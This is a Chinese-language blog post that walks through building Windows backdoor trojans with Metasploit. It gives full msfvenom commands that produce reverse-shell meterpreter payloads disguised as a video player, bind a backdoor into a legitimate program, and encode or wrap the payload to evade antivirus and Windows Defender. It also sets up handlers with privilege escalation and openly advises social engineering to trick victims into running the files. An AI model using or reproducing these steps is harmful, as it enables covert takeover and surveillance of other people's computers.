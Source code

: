 ```yaml
---
title: "制作Windows恶意软件监听个人电脑"
date: 2020-02-22T17:25:22+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```


Metasploit木马命令制作windows恶意软件提权监听个人电脑



<!--more-->



## 客户端渗透原理 

> 在无法突破对方的网络边界的时候，往往需要使用客户端渗透这种方式对目标发起攻击，比如 我们想目标发一个含有后门的程序，或者是一个word文档、pdf文件，利用好社会工程学，来诱骗受害者执行恶意程序。通常用户的计算机都安装了安全软件，一般我们生成的恶意程序都会被检测.设计的恶意软件可以利用人的劣根性，但是也需要利用免杀来躲避 安全软件的查杀



## 制作Windows恶意软件获取shell

> msfvenom是msfpayload,msfencode的结合体，可利用msfvenom生成木马程序,并在目标机 上执行,在本地监听上线

## 原理

![](http://junmoxiao.org.cn/20200222173629.png)

## 实现步骤

* 生成西瓜影音.exe后门程序 

  ~~~
  msfvenom -h #帮助文档
  ~~~

  ~~~
  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai  -i 10 -f exe -o /var/www/html/西瓜影音.exe 
  ~~~

> 参数说明
>
> -a 指定架构如x86x64  x86代表32位， x64代表64位。 32位软件可以在64位系统上运行。 所以我们生成32位的后门，这样在32位和64位系统中都可以使用。 
>
> --platform 指定平台 通过 --l platforms可以查看所有支持的平台 
>
> -p 设置攻击载荷 通过-l payloads查看所 有攻击载荷
>
> LHOST 目标主机执行程序后连接我们Kali的地址
>
> LPORT 目标主机执行程序后连接我们Kali的端口 
>
> -b 去掉坏字符，坏字符会影响payload正常执行  \x00 ->null 
>
> -e 指定编码器，也就是所谓的免杀 可以通过 -l encoders查看所有编码器
>
> -i 指定payload有效载荷编码迭代次数。 指定编码加密次数，为了让杀毒软件，更难查出源代码 
>
> -f 指定生成格式  用 -l formats 查看所有支持的格式
>
> -o 指定文件名称和导出位置  指定到网站根目录/var/www/html，方便在肉机上下载后门程序

* 开启WEB服务
* 在MSF上启动handler开始监听后门程序

~~~
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
help
backgroud
sessions
~~~

![](http://junmoxiao.org.cn/20200222183539.png)



## 给真正的软件加上后门

* 先下载一个正常的软件

* 把payload后门和这些小程序绑定到一起

  ~~~
  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 20 -f exe -x QvodTerminal.exe -o /var/www/html/QvodTerminal.exe
  ~~~

* 开启WEB服务

* 在MSF上启动handler开始监听后门程序

~~~
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
run
help
backgroud
sessions
~~~

## Metasploit evasion模块生成后门木马 

> evasion 是 metasploit 自带的模块，使用此模块可以生成反杀毒软件的木马

![](http://junmoxiao.org.cn/20200222192233.png)

* 生成后门程序 

~~~
banner
search evasion
use evasion/windows/windows_defender_exe
set payload  windows/meterpreter/reverse_tcp
run
~~~

* 打开另一个终端，将生成的木马文件复制到 /var/www/html ，开启WEB服务
* 启动handler开启监听后门木马

~~~
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
run
help
getsystem
backgroud
sessions
~~~


